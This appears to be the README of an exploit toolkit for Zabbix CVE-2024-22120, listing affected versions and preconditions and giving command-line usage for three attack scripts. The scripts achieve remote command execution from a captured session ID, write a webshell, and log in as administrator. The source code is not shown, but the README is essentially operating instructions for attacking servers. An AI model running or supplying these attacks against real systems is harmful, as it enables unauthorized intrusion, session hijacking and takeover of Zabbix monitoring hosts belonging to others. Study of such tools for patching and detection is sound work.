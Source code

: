 # CVE-2024-22120 ToolKit

# Affected Version/s

```
6.0.0 - 6.0.27
6.4.0 - 6.4.12
7.0.0alpha1
```

# Credit

https://x.com/mf0cuz

> https://support.zabbix.com/browse/ZBX-24505

> https://packetstormsecurity.com/files/137454/Zabbix-3.0.3-Remote-Command-Execution.html

# Premise

- a low-privilege user

- Have permission to execute scripts

  ![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520113821013.png)

# Usage

## CVE-2024-22120-RCE

Capture packets to obtain sessionid and hostid:

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520113103613.png)

```
python -m pip install requests pwntools

python CVE-2024-22120-RCE.py --ip 192.168.198.136 --sid f026d1c7a3c36537cfe78fed35c7456a --hostid 10084
```

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520112956658.png)

## CVE-2024-22120-Webshell(Unable to use in most cases)

if you already have a session ID of Administrator privileged user, try:

```shell
python CVE-2024-22120-Webshell.py --ip 192.168.198.136 --aid fe647173d7769d55a43f161a68b256e0 --hostid 10084 --file shell.php
```

else:

```shell
python CVE-2024-22120-Webshell.py --ip 192.168.198.136 --sid f026d1c7a3c36537cfe78fed35c7456a --hostid 10084 --shell shell.php
```

But almost most of them cannot be written to the webshell through echo, because the execution user is zabbix:

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520160457471.png)

## CVE-2024-22120-LoginAsAdmin

```shell
python CVE-2024-22120-LoginAsAdmin.py --ip 192.168.198.136 --sid decf4ef56988027d62ca1db2a00d8346 --hostid 10084
```

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520175955624.png)

test:

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520180010132.png)

replace then refresh:

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520180055161.png)

login as admin!!!

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240520180339314.png)
